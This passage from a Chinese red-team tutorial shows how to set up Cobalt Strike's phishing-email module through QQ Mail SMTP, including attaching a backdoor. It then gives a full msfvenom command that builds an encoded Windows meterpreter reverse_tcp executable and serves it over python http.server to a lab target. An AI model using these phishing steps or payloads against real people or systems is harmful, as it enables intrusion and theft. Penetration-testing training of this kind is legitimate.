 这边拿QQ邮箱为例  点击设置然后点击 账户

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/1985/1647858582045/9969011be032489c8be8b39aa5e21406.png)

找到 IMAP/SMTP服务 点击开启服务 获取 授权码  （获取后把这个授权码先记录下来）

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/1985/1647858582045/5c6b9d0a35a6439ea049c401ad493319.png)

然后回到CS中  进入邮件钓鱼

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/1985/1647858582045/dd792386511c4f028d239aaeb1cf5060.png)

邮件钓鱼配置参数如下

目标 ：这里指的是接收邮件的号码

模板：邮件的格式个内容

附件： 可以加入后门程序或其他 或者不加

嵌入URL : 可以选择配置好的网站放进去

邮件服务器：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/1985/1647858582045/242bc7796dc84d26a5013b558ce7b8c9.png)

退信通知邮箱 可以填写任意可接受邮件的邮箱

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/1985/1647858582045/66e35b4a9f0048aaa06d3d4dc712b206.png)

所有参数配置完成后 点击 Send 发送邮件即可

# 12 将MSF会话注入Cobalt Strik监控

## 1 环境准备：

1 kali操作系统

2 Cobalt Strik 服务端和客户端

3 一个在MSF下拿到权限的靶机

## 2 配置MSF创建监听

2.1 使用msf创建后门

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.0.70.3 LPORT=4444 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 10  -f exe -o payload.exe
```

2.2  使用python创建一个web服务 然后使用靶机下载

```
python3 -m http.server 80
```
